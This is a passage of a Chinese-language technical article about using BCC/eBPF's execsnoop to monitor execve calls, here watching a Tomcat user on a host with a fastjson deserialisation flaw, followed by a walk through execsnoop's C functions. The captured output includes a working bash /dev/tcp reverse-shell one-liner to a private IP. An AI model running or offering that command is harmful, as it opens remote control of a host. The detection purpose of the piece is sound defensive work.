 这是因为BCC工具在编译eBPF字节码时，依赖这些内核头文件，后面我们会具体介绍。

上面安装的bpfcc-tools这个包，是BCC中自带的示例性工具集，包含了很多有用的功能。安装后我们可以运行其中的execsnoop，这个工具会打印出`execve`系统调用的实时执行情况：

```
root@debian:~# execsnoop-bpfcc
PCOMM            PID    PPID   RET ARGS
ls               66362  51315    0 /bin/ls --color=auto
```

一个典型的场景是，在Linux主机上运行了Web服务，可能存在漏洞导致远程命令执行，那么如何对Web服务执行命令的行为进行监控呢？这里就可以使用上面提到的execsnoop工具。我们通过`-u`参数，指定对Web服务进程的uid进行过滤，就可以看到该用户所有调用`execve`的情况。

下面的示例，是对搭建了fastjson反序列化漏洞的tomcat用户进行execsnoop监控。攻击者通过反序列化POC获取了反弹shell，并执行了`whoami`命令，相关的调用信息都可以在execsnoop的监控输出看到：

```
root@debian:~# execsnoop-bpfcc -u tomcat
PCOMM            PID    PPID   RET ARGS
bash             68335  68282    0 /bin/bash -c exec 5<>/dev/tcp/192.168.195.1/1888;cat <&5 | while read line; do $line 2>&5 >&5; done
cat              68336  68335    0 /bin/cat
whoami           68338  68337    0 /usr/bin/whoami
```

上面的功能通过其他方式也可以实现，但这里使用BCC/eBPF的方式具有以下优点：

- 应用层无感，无需重启Web服务，可在运行时随时启动或退出监控（直接`Ctrl-C`停止execsnoop即退出）
- 在内核`execve`系统调用处进行记录，即使进行bash命令混淆，还是可以看到最终执行的真实命令

### execsnoop的实现

接下来，我们通过[execsnoop的代码](https://github.com/iovisor/bcc/blob/master/tools/execsnoop.py)，来理解BCC是如何通过eBPF进行工作的。

BCC将许多功能通过Python进行了封装，因此execsnoop其实是一个Python脚本，其中最重要的就是eBPF程序代码：

```python
# define BPF program

bpf_text = """
#include <uapi/linux/ptrace.h>
```

eBPF程序是用C编写的，这里将其以字符串格式保存在Python脚本中，核心是这两个函数：

```c
int syscall__execve(struct pt_regs *ctx,
    const char __user *filename,
    const char __user *const __user *__argv,
    const char __user *const __user *__envp)
```

```c
int do_ret_sys_execve(struct pt_regs *ctx)
```

这两个函数的逻辑也比较清晰：

- `syscall__execve`，获取进程的uid，pid，ppid，执行的命令（comm），**命令参数**。将这些信息填入结构体`data_t`，并最终通过`events.perf_submit`进行提交。值得注意的是，每个参数是单独提交的，而不是把所有信息汇总后统一提交。
- `do_ret_sys_execve`，获取进程的uid，pid，ppid，执行的命令（comm），**返回结果**。将这些信息填入结构体`data_t`，并通过`events.perf_submit`进行提交.
